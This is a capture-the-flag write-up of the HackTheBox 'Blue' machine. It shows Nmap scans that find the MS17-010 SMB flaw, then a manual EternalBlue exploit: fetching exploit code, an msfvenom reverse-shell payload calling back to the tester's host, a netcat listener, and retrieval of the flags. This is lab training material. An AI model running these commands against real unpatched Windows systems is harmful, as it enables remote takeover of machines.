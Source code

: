 # Blue

## IP
The HackTheBox IP for this machine was 10.10.10.40

## Nmap
I ran Nmap three times for this machine. The first was a simple service scan:

```
kali@kali:~$ sudo nmap -sS -p- 10.10.10.40 -vv
...
PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127
```

I then ran a **-A** against all three open identified ports:

```
kali@kali:~$ sudo nmap -A 10.10.10.40 -p135,139,445 -vv
...
PORT    STATE SERVICE      REASON          VERSION
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 
...
Host script results:
|_clock-skew: mean: 9m36s, deviation: 1s, median: 9m35s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 13581/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 18036/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-10-31T03:01:59+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-31T03:01:57
|_  start_date: 2020-10-31T02:59:24
```

Finally, I ran **-A** against the SMB-specific ports (139, 445) turning on all the NSE scripts from SMB vulnerabilities:

```
kali@kali:~$ sudo nmap -A 10.10.10.40 -p139,445 --script=smb-vuln-* -vv
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
...
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010 : 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

The NSE scripts show Blue is vulnerable to MS17-010, the same issue we exploited for Legacy. But this time, I didn't want to use a walkthrough of the box. Instead, I wanted to see how to manually exploit the issue *for the issue* and not just for the box.

## Searchsploit
![Image of Searchsploit for MS17-010]
(https://github.com/Malwolf24/OSCP/blob/main/Blue/images/blue_searchsploit.png)

## Exploit
For this manual walkthrough, I followed Red Team Zone's "Eternal Blue" write-up (https://redteamzone.com/EternalBlue/). First, I mirrored **42315.py** down to my local machine and then made a working copy of it called **exploit.py**. 

```searschsploit -x 42315.py```
```cp 42315.py exploit.py```

For this exploit to work, we need to download **mysmb.py** from https://github.com/worawit/MS17-010/blob/master/mysmb.py:

```
kali@kali:~/Desktop/OSCP/Blue$ python exploit.py
Traceback (most recent call last):
  File "exploit.py", line 3, in <module>
    from mysmb import MYSMB
ImportError: No module named mysmb
```

```
kali@kali:~/Desktop/OSCP/Blue$ wget https://github.com/worawit/MS17-010/blob/master/mysmb.py
--2020-10-30 23:32:20--  https://github.com/worawit/MS17-010/blob/master/mysmb.py
Resolving github.com (github.com)... 140.82.113.3
Connecting to github.com (github.com)|140.82.113.3|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘mysmb.py’

mysmb.py                                                   [  <=>                                                                                                                       ] 220.11K   553KB/s    in 0.4s    

2020-10-30 23:32:22 (553 KB/s) - ‘mysmb.py’ saved [225389]
```

Next, we use MSFVenom to generate a reverse TCP shell for windows, specifying my localhost and port 4444 for the shell to connext to once executed:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f exe > shell.exe
```

Great! Now we have the exploit and we have our shell. Now, how do we get them to play nice together such that the exploit will execute our shell and connext back to our attacking machine? For that, we need to modify the exploit Python code:

![Exploit modification]
(https://github.com/Malwolf24/OSCP/blob/main/Blue/images/blue_exploit_mod.png)

Then set up a netcat listener on port 4444:

```nc -nlvp 4444```

And run our exploit code (after we specify username='guest' in the exploit code...for that part...):

```python exploit.py 10.10.10.40```

## Success!
![Success!]
(https://github.com/Malwolf24/OSCP/blob/main/Blue/images/blue_success.png)

From here, as with Legacy, we are already system administrator, so we just navigate to both the user's Desktop and administrator's Desktop and retrieve the flags. Success!
